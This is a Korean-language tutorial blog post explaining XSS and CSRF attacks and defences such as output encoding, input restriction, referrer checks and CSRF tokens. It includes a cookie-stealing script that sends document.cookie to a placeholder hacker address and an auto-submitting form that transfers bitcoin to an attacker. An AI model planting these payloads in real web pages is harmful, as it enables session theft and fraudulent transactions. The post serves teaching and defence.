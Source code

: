 ```yaml
---
layout : posts

title : "XSS 와 CSRF"

date : 2021-07-10

categories : web

comments : true
---
```




전 포스팅 중 [CORS 란](https://pkt369.github.io/web/CORS%EB%9E%80/)을 적으면서 XSS와 CSRF에 대해 한번 언급한적이 있다.

XSS 와 CSRF 는 해킹 방법이며, 이전 포스팅인 CORS와 SOP가 해킹을 보안하기 위해 만든 정책이다.

XSS와 CSRF 가 정확히 무엇이길래 CORS와 SOP 정책이 나오게 되었을까?

이번 포스팅에서 자세히 알아보자.

<br>

### XSS

XSS는 Cross-Site Scripting (사이트 간 스크립팅)을 의미하며 웹 애플리케이션에서 많이 나타나는 취약점 중 하나로, 개발자가 아닌 다른 사람이 웹 페이지에 악성 스크립트를 삽입하는 것을 말한다.

주로 다른 웹사이트와 정보를 교환하는 식으로 나타나기 때문에 사이트 간 스크립팅이라고 부른다.

<br>

서버 사이트 스크립팅은 언제 일어나게 될까?

웹 애플리케이션이 사용자로부터 입력 받은 값을 제대로 검사하지 않고 사용할 경우 나타난다.

<br>

그럼 어떻게 될까?

성공시 사이트에 접속한 사용자는 삽입된 코드를 실행하게 된다.

코드를 실행하게 되면 쿠키나 세션같은 민감한 정보들을 탈취한다.

<br>

좀더 이해하기 쉽게 예를 들어 설명해보겠다.

한 해커가 웹사이트를 해킹하기 위해 게시글에 쿠키를 빼오는 자바스크립트를 넣었다.

```javascript
<script>window.location = "https://해커의 주소/?cookie=" + document.cookie</script>
```

그럼 일반 사용자는 해당 게시글을 클릭시, 자동으로 악성코드가 발동되어 쿠키 정보가 해커에게 넘어

간다.

<br>

위의 설명은 Stored XSS 이다. 그럼 다른 XSS도 있을까?

XSS는 두가지 종류가 있는데 Stored XSS 와 Reflected XSS가 있다.

Stored XSS 는 사이트 게시판이나 댓글, 닉네임 등 스크립트가 서버에 저장되어 실행되는 방식이고, Reflected XSS는 보통 URL 파라미터(주로 GET)에 스크립트를 넣어 서버에 저장하지 않고 그 즉시 스크립트를 만드는 방식이다. 하지만 Reflected XSS 같은 경우는 브라우저가 차단하기때문에 공격을 성공시키기 어렵다.

<br>

그럼 대응방안은 어떤게 있을까?

1. SCRIPT문장에 존재하는 특수문자를 메타캐릭터로 변환시킨다.

   ![xssEncoding](https://user-images.githubusercontent.com/66049273/125160019-b829a800-e1b5-11eb-85b3-15a730a12a58.jpg)

   참조 : 구글 이미지

2. 파라미터 입력 값 제한

   만약 받는 파라미터를 id 값만 받아오기로 했다면 숫자만 받을수있도록 설정해놓으면 다른 값은 들어올수 없게 된다.

<br>

<br>

### CSRF

CSRF(Cross-Site Request Forgery)는사이트 간 요청 위조라고도 부르며, 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위(수정, 삭제 등)를 요청하게한것을 말한다.

<br>

CSRF는 언제 일어나게 될까?

사용자가 로그인한 상태에서 요청 위조 공격 코드가 삽입된 웹페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로 부터 발송된 것으로 판단되어 공격을 받을수 있게 된다.

<br>

그럼 어떻게 될까?

사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제 등)을 요청하게 된다.

<br>

좀더 이해하기 쉽게 요즘 핫한 코인 거래소를 예를 들어 설명해보겠다.

사용자가 코인거래소에 로그인하고 해커의 페이지에 방문을 한다.

해커 페이지는 코드를 만들어 자신의 코인 주소로 전송 시키도록 보낸다.

```javascript
<form action="코인 주소" method="POST">
    <input name="받는 사람" value="해코 코인 주소">
    <input name="코인 이름" value="비트코인">
    <input name="개수" value=50>
</form>
<script>document.forms[0].submit()</script>
```

코인 거래소는 사용자의 인증정보를 가지고 request를 받았기때문에 정상적인 요청이라고 인식을 한다.

이렇게 되면 나도모르는 사이 돈이 빠져나가는 것을 볼수 있다.

<br>

그럼 대응방안으로 무엇이 있을까?

1. Referrer 검증

   백엔드에서 request의 referrer를 확인하여 domain이 일치하는지 검증

   즉, 보낸 주소와 현재 domain을 비교 (CORS와 같은 개념)

2. Security Token 사용(CSRF Token)

   사용자 세션에 임의의 난수 값을 저장하고, 사용자 요청마다 난수 값을 포함시켜 전송한다.

   백엔드에서 요청받은 토큰값과 세션에 저장된 토큰 값이 같은지 검증

<br>

<br>

### XSS와 CSRF의 차이점

|                  XSS                  |                CSRF                 |
| :-----------------------------------: | :---------------------------------: |
| 쿠키나 세션같은 중요한 정보 탈취 목적 | 사이트 간 요청을 위조하여 서버 요청 |
|             스크립트 필요             |           스크립트 불필요           |

<br>

<br>

### 정리

마지막으로 정리를 하자면 XSS는 스크립트를 통해 쿠키나 세션을 탈취를 하고 CSRF는 해커사이트에 들어가면 스크립트가 실행이되면서 다른 사이트에 요청이 들어가게 되는것이다.







